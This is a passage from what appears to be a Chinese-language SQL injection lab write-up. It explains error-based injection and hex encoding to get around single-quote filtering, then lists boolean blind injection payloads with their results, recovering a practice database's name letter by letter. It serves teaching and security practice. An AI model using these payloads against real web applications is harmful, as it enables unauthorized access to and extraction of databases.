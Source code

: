 ​   第二个参数：xpath_string（xpath格式的字符串），为XML文档的路径

​   由于'\~'属于字符串string 格式，所以写在参数1位置不报错，'~'不属于文档路径格式，不属于xpath语法格式，因此写在参数2位置报出xpath语法错误。

​ 2）报错注入中，为什么要突破单引号的限制，如何突破？

​   SQL注入非常关键的一步就是让引号闭合和跳出引号，无法跳出引号，那么输入的内容就永远在引号里，输入的东西就永远是字符串，很显然这不符合SQL注入的要求。可以使用16进制代替特殊符号，规避单引号的限制。

​ 3）在报错注入过程中，为什么要进行报错，是哪种类型的报错？

​   利用数据库报错来进行判断是否存在注入点，不符合数据库语法规则就会产生报错。报错注入过程中，函数语法的报错会将查询的结果放在报错信息里，即函数报错时会解析SQL语句，这样就得到我们想要的数据库信息。属于函数语法的报错。

#### 3. 任选布尔盲注或者时间盲注在前端和后端实现“库名 - 表名 - 列名”的注入过程，写清楚注入步骤

​ a. 判断库名的长度，使用二分法判断得出数据库名长度为4

```
1' and length(database())>10;# MISSING 
1' and length(database())>5;# MISSING 
1' and length(database())>3;# exists 
1' and length(database())=4;# exists
```

​ b. 猜测数据库库名，使用substr()函数和ascii码，把字符转换成数字来进行比较逻辑判断。

```
1' and ascii(substr(database(),1,1))>88;# exists 
1' and ascii(substr(database(),1,1))>98;# exists 
1' and ascii(substr(database(),1,1))>100;# MISSING 
1' and ascii(substr(database(),1,1))=100;# exists
```

ascii码等于100，得出第一个字母为d

```
1' and ascii(substr(database(),2,1))>100;# exists 
1' and ascii(substr(database(),2,1))>150;# MISSING 
1' and ascii(substr(database(),2,1))>120;# MISSING 
1' and ascii(substr(database(),2,1))>110;# exists
1' and ascii(substr(database(),2,1))>115;# exists
1' and ascii(substr(database(),2,1))>118;# MISSING
1' and ascii(substr(database(),2,1))=118;# exists
```

ascii码等于118，得出第二个字母为v

```
1' and ascii(substr(database(),3,1))>100;# exists 
1' and ascii(substr(database(),3,1))>120;# MISSING 
1' and ascii(substr(database(),3,1))>110;# exists
1' and ascii(substr(database(),3,1))>115;# exists
1' and ascii(substr(database(),3,1))>118;# exists
1' and ascii(substr(database(),3,1))=119;# exists 
```

ascii码等于119，得出第三个字母为w
